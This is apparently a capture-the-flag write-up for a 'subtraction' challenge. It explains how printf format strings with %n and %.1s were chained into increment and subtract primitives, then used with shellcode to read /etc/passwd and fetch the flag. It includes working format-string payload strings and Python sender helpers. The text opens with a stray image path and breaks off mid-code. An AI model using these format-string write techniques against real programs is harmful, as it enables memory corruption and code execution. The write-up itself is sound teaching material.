     "%{0}$.*{0}$d%{1}$.*{1}$d%12$n".format(idx_a, idx_b)
    
Subtracting is a bit harder. How about incrementing two registers simultaneously one-by-one until one of them overflows?
That certainly makes it but we have no loops here. So we ended up searching for a primitive that increments a value
if a pointed byte is non-zero (call it `inc_if_byte`), and sending that over the wire 256 times.

    def sub_byte(idx_a, idx_b):
      addr_b = idx_to_addr(idx_b)
      inc_byte(idx_a)
      inc_byte(idx_b)
      for _ in range(255):
        inc_if_byte(idx_a, addr_b)
        inc_if_byte(idx_b, addr_b)

The first increment is not conditional, so at the end number `b` is guaranteed to be exactly 256, even if we started
with `b = 0`. How does the conditional increment work? We found multiple solutions, the shortest is taking advantage
of the `%s` conversion with a precision of 1. That means we output at most 1 character of a null-terminated string. So
if that first byte is zero, no bytes are outputted, if anything else, it is outputted as exactly one byte. Add the
original value of the variable and you have your conditional increment.

    def inc_if_byte(idx_orig, addr_test, addr_out=None):
      if addr_out is None:
          addr_out = idx_to_addr(idx_orig)
      send("%{0}$.*{0}$d%12$.1s%11$n".format(idx_orig), addr_out, addr_test)

These are all the primitives that you need. Compute the difference one byte at a time, copy the output bytes to the
output buffer, and handle carry (which happens to be an addition, easier to use 16-byte arithmetics there).

At the end we put a shellcode to read `/etc/passwd` to find a user called `subtraction`, the flag was in
`/home/subtraction/flag`.

Enjoy your flag: `flag{pr1n7f_15_600d_47_51mpl3_m47h}`

Commands without the shellcode at the end
-----------------------------------------

```python3
import sys
import struct
import time

index = 0
def _send(w = b""):
  sys.stdout.buffer.write(w)
  
def send(w = "", p1=0, p2=0):
  global index
  w = w.encode('ascii')
  assert len(w) < 24
  w = ((w + b"\0" * 24)[:24]) + p32(p1) + p32(p2)
  assert len(w) == 32
  _send(w)
  index += 1

def send1(w = "", p2=0):
  global index
  w = w.encode('ascii')
  assert len(w) < 28
  w = ((w + b"\0" * 28)[:28]) + p32(p2)
```